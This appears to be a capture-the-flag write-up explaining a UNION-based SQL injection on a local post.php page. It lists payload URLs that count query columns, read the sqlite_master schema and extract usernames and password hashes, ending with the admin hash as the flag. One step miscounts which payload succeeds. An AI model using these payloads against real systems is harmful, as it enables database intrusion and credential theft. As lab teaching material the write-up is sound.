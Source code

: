 The /post.php page is vulnerable to SQL injection.

Step-by-Step Exploitation

1. Identifying the Vulnerability:
- The vulnerability allows us to inject SQL commands through the `id` parameter of the `post.php` page.


Whenever the vulnerability is identified, we can try a few SQLi payloads to identify the number of columns of the initial SQL request we are injecting into : 
http://localhost/post.php?id=-1 UNION ALL SELECT NULL
http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL
http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,NULL
http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,NULL,NULL

When injecting the 3rd payload, there are no errors anymore. This lets us know that there are 4 columns in the first request. (id, created_at, title, content)

2. Retrieving the Table Structure:
- To understand the database schema, we can exploit the vulnerability to retrieve the structure of the `user` table.
- The following URL is used:

http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,sql,NULL FROM sqlite_master

- Here, we use the `UNION ALL` statement to combine the results of two queries: the original one and our injected one. The injected query selects columns from `sqlite_master`, which holds the schema information of the database.

3. Retrieving the Admin Hash:
- To retrieve the hash of the admin user, we inject another SQL query:

http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,username,password FROM users

This returns the user called `user` and his hash. We are not interested by this hash, we want the admin's hash.

http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,username,password FROM users LIMIT 1 OFFSET 1

- This query targets the `users` table and selects the `username` and `password` columns. The `LIMIT 1 OFFSET 1` clause is used to skip the first row and fetch the second row (because the first row corresponds to the user `user`).

4. Extracting the Hash:
- The result of the above query reveals the hash of the admin user:

bf4776ba55b41ae54b00fc2fee111562

- Consequently, the flag for the CTF challenge is:

FSIIECTF{bf4776ba55b41ae54b00fc2fee111562}